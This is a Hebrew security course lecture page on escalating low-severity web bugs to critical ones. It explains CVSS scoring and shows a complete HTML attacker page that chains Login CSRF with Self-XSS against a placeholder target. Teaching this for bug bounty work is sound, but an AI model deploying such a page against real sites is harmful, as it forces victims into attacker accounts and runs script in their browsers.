

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/9 - שרשור חולשות ועולם אמיתי/9.2 - מ-Low ל-Critical/9.2 - מ-Low ל-Critical - הרצאה/index.html · generator: mkdocs

# מ-Low ל-Critical - הסלמת חומרת חולשות

## הבנת דירוגי חומרה - CVSS

לפני שמתחילים להסלים חולשות, צריך להבין מה הופך ממצא לקריטי.

### סולם CVSS v3.1

```
None:     0.0
Low:      0.1 - 3.9
Medium:   4.0 - 6.9
High:     7.0 - 8.9
Critical: 9.0 - 10.0
```

### הפרמטרים שקובעים חומרה

```
Attack Vector (AV):
  Network (N)  - remote attack over the network
  Adjacent (A) - attack from an adjacent network
  Local (L)    - local attack
  Physical (P) - physical attack

Attack Complexity (AC):
  Low (L)  - easy to exploit
  High (H) - requires special conditions

Privileges Required (PR):
  None (N) - no privileges
  Low (L)  - regular privileges
  High (H) - high privileges

User Interaction (UI):
  None (N)     - no interaction
  Required (R) - requires interaction

Impact:
  Confidentiality (C): None/Low/High
  Integrity (I):       None/Low/High
  Availability (A):    None/Low/High
```

### מה הופך ממצא ל-Critical?

ממצא קריטי בדרך כלל כולל:
- וקטור רשת (Network)
- מורכבות נמוכה (Low)
- ללא הרשאות נדרשות (None)
- ללא אינטראקציית משתמש (None)
- אימפקט גבוה על סודיות, שלמות, וזמינות

המטרה שלנו: לקחת ממצא שלא עומד בקריטריונים האלה ולשרשר אותו כך שהתוצאה כן עומדת.

## טכניקה 1 - Self-XSS ל-Full XSS

### הבעיה

Self-XSS היא חולשת XSS שבה רק המשתמש עצמו יכול להזריק ולהפעיל את ה-payload. רוב תוכניות ה-Bug Bounty לא מקבלות Self-XSS כי אין סיכון אמיתי - למה שמשתמש יתקוף את עצמו?

### שיטה א - Login CSRF

אם יש Login CSRF (אפשר לחבר קורבן לחשבון של התוקף):

```html
<!-- Attacker page: logs the victim into the attacker's account -->
<html>
<body>
  <h1>Loading...</h1>

  <!-- Step 1: logs the victim out -->
  <img src="https://target.com/logout" style="display:none">

  <!-- Step 2: logs into the attacker's account (Login CSRF) -->
  <form id="loginForm" action="https://target.com/login" method="POST">
    <input type="hidden" name="username" value="attacker">
    <input type="hidden" name="password" value="attacker_pass">
  </form>

  <script>
    // Wait for the logout to finish
    setTimeout(() => {
      document.getElementById('loginForm').submit();
      // The victim is now logged into the attacker's account
      // Where the Self-XSS is already injected
      // The victim sees the XSS and JavaScript runs in their browser
    }, 1000);
  </script>
</body>
</html>
```
